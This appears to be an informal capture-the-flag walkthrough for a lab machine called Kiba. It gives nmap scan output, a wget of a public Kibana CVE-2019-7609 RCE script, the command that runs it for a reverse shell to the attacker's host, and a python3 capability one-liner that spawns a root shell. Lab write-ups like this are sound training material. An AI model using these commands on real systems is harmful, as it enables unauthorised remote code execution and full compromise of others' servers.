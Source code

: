 #Kiba


22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and got port 5601 thats kibna 

searching google for kibana rce exploit i got this 
https://github.com/mpgn/CVE-2019-7609

wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py

then run this

pyhton CVE-2019-7609-kibana-rce.py -u 10.10.188.47:5601 -host <your vpn> -port 1234 --shell

kabooom we got reverse shell.....

thennnn go for privesc using Capabilities 

ls -la in kiba we have some dir thats .hackmeplease the look into this we got python3

Exploiting capability using python3

cd .hackmeplease
getcap -r / 2>/dev/null
ls -al python3
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id

